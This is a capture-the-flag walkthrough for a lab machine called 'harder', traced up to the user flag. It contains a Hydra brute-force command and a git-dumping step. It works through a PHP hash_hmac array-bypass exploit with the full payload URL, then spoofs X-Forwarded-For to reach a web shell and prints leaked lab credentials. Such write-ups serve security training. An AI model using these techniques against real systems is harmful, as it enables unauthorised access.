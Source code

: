 # harder

## Enumeration

Start with an `nmap` scan per usual to see which ports are open, and what services run on the respective ports. `sudo nmap -Pn -v -A 10.10.222.15`

![nmap](images/nmap.png)

The website at port `80` seems empty, so we use `gobuster` to find hidden directories. This also seems to fail, because all requests are redirected to a standard error site.

By using Burp Suite we observe a _domain_ tag in the response from the website.

```
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sun, 20 Sep 2020 18:13:29 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
X-Powered-By: PHP/7.3.19
Set-Cookie: TestCookie=just+a+test+cookie; expires=Sun, 20-Sep-2020 19:13:29 GMT; Max-Age=3600; path=/; domain=pwd.harder.local;secure
```

This response sets a cookie that is associated with the domain `pwd.harder.local`. When sending a request through burp to _pwd.harder.local_ we see that the site now has a lot more content.

![new request](images/alterRequest.png)

We thus need to associate the IP to the webserver with _pwd.harder.local_. `sudo nano /etc/hosts` and adding `<IP_to_server> pwd.harder.local` under the IPv4 section. This means that going to the website `pwd.harder.local` will take you to the associated IP.

Going to `pwd.harder.local` prompts us with a login. 

![login](images/login.png)

Using Hydra we try to crack the password `hydra pwd.harder.local -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/index.php:action=set_login&user=^USER^&pass=^PASS^:Invalid"`, and end up getting `[80][http-post-form] host: pwd.harder.local   login: admin   password: admin`.

username: admin

password: admin

After some trying and failing, I run gobuster on http://pwd.harder.local/ to try and find a hidden directory. Lucky for us there seems to be a hidden `/.git/` directory!

![gobuster](images/gobuster.png)

By going to `/.git/HEAD` we're prompted with a download for the HEAD file.

![git](images/git.png)

Using [GitDumper.py](https://github.com/arthaud/git-dumper/blob/master/git-dumper.py) I recursively try to download the contents of the hidden .git directory.

![gitdumper](images/git-dumper.png)

GitDumper found three php files in the .git directory. Taking a look at the first one, `auth.php` we see on the first line that the admin username and password is defined in plain text.
![admin](images/auth.png)

The `hmac.php` file, on the other hand, contains some very interesting code
```php
<?php
if (empty($_GET['h']) || empty($_GET['host'])) {
   header('HTTP/1.0 400 Bad Request');
   print("missing get parameter");
   die();
}
require("secret.php"); //set $secret var
if (isset($_GET['n'])) {
   $secret = hash_hmac('sha256', $_GET['n'], $secret);
}

$hm = hash_hmac('sha256', $_GET['host'], $secret);
if ($hm !== $_GET['h']){
  header('HTTP/1.0 403 Forbidden');
  print("extra security check failed");
  die();
}
?>
```

This code throws a 40x error unless you somohow manage you know the secret generated `hm` value. You must send in at least two values `h` and `host`, and a seemingly optional `n`. [Refer to this article for more information regarding why this code is vulnerable](https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up). The really boiled down version of why this is exploitable is becase `hash_hmac('sha256', $_GET['n'], $secret)`, where `n` is an empty array and not a string, will return `false`. We can therefore always know the salt, `$secret=false`, which is used while generating `$hm = hash_hmac('sha256', $_GET['host'], $secret);`. This means that we can generate the hash locally and send it in together with the pre-image of the hash to get access.

By running 
```php
<?php
$secret = hash_hmac('sha256', "LookMomImHacking", false);
echo $secret;
?>
```
We get the hash `aca57efd1094b6befc7c79c010899e97364bd971523cd24236e26beed850bbfb`. 

From there it was easy to construct the payload `http://pwd.harder.local/index.php?h=aca57efd1094b6befc7c79c010899e97364bd971523cd24236e26beed850bbfb&n[]=&host=LookMomImHacking`, which gave us a link to a new "shell" and a pair of credentials. 

![harder.png](images/harder.png)

```
Username: evs
Password: 9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm
```

Heading to `shell.harder.local` gives us an _unknown host_ error. It must be added to `/etc/hosts` before we can proceed. It works, and we're greeted with a login page. After entering the credentials above we are met with yet another roadblock.

![](images/ip.png)

By changing the `X-Forwarded-For` header to something valid (for example 10.10.10.10) we are able to fool the server into thinking our request originated from that IP.
In Burp Suite's proxy you can use _match and replace_ to automatically add the header to all requests.

![](images/xForwarded.png)

Finally! We get access to some sort of shell we're able to interact with.

![](images/cmd.png)

By poking around a little we find `evs` home directory, and the user's `user.txt` file.

![](images/user.png)